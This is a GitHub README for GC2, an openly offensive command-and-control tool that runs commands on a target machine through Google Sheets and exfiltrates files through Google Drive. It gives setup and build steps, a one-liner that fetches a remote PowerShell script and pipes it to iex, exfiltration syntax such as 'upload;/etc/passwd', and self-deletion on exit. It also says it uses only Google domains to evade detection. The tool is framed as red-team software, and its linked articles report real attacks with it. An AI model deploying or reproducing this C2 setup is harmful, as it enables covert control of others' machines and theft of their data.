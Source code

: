 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# My Contribution

A Powershell script that downloads go, adds it to the user's path, downloads the zip from the repository "looCiprian/GC2-sheet", builds the executable, and runs gc2-sheet. Note: requires a web server to host the #MY_KEY_JSON file to Invoke-Webrequest down, #MY_SHEET_ID, and #MY_DRIVE_ID to be incorporated into the PS1. Additionally, PowershellScript-GC-2.ps1 can be hosted from the same webserver and requested with Invoke-RestMethod or Invoke-WebRequest.

# Why

This project has been developed to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

# Set up

1. **Create a new Google "service account"**
 
    Create a new Google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

2. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/drive_permissions.png" height="60%" width="60%">
    </p>    

4. **Download the C2**

    The C2 can be cloned directly from GitHub:

    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    ```

5. **Configure the C2**

    The preferred way to configure the C2 is by modifying the `options.yml` file inside the `cmd` directory.

    The `options.yml` file is structured as follows:

    ```
    key: # escaped JSON key
    sheet: # sheetID
    drive: # driveID
    proxy: # proxy string
    verbose: # verbose true or false
    ```

6. **Build executable**
 
    ```
    go build gc2-sheet.go
    ```

7. **Run**

   If you have a web server hosting your MY_KEY_JSON file and running on Windows, use:
   ```Powershell
   irm "http://$myUrl/PowershellScript-GC-2.ps1" | iex
   ```

   Or Linux the below commands. If the configuration file has been modified just run:

    ```
    ./gc2-sheet
    ```

    Otherwise, it is possible to use the command options after compiling the C2 (this option will be deprecated soon):

    ```
    gc2-sheet --key <GCP service account credential file .JSON > --sheet <Google sheet ID> --drive <Google drive ID>
    ```

## Troubleshooting

Most of the errors can be detected by setting the `verbose` flag to `true`. By default, the C2 does not generate any output or error information.

# Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

## Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in column `A`, and the output will be printed in the column `B`. 

## Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

## Download file

Special commands are reserved to perform the upload and download to the target machine

 ```
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

## Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

# Workflow

<p align="center">
  <img alt="Work Flow" src="img/GC2-workflow.png" height="60%" width="60%">
</p>

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)

# Articles related to this tool
[Google](https://services.google.com/fh/files/blogs/gcat_threathorizons_full_apr2023.pdf)

[The Hacker News](https://thehackernews.com/2023/04/google-uncovers-apt41s-use-of-open.html)

[Reddit](https://www.reddit.com/r/cybersecurity/comments/12u3wvl/top_cybersecurity_stories_for_the_week_of_041723/)

[LinkedIn](https://www.linkedin.com/pulse/hacking-tutorial-google-sheets-command-control-c2-server-maxwell-zhou/)

[Bleeping Computer](https://www.bleepingcomputer.com/news/security/hackers-abuse-google-command-and-control-red-team-tool-in-attacks/)

[Security Affairs](https://securityaffairs.com/144915/apt/china-apt41-tool-gc2.html)

[Icrewplay](https://tech.icrewplay.com/gc2-strumento-google-gruppo-cinese-apt41/?utm_content=cmp-true)

[Information Security Buzz](https://informationsecuritybuzz.com/google-uncovers-apt41-tools-targeting-media-and-job-sites/)

[Hackdig](http://en.hackdig.com/04/477620.htm)

[Hakin9](https://hakin9.org/gc2-command-and-control-application/)

[RedPacketSecurity](https://www.redpacketsecurity.com/gc2-a-command-and-control-application-that-allows-an-attacker-to-execute-commands-on-the-target-machine-using-google-sheet-and-exfiltrate-data-using-google-drive/)

[Cyware](https://cyware.com/news/apt41-uses-open-source-red-teaming-tool-gc2-9eaecb18)

[Kitploit](https://www.kitploit.com/2021/10/gc2-command-and-control-application.html)
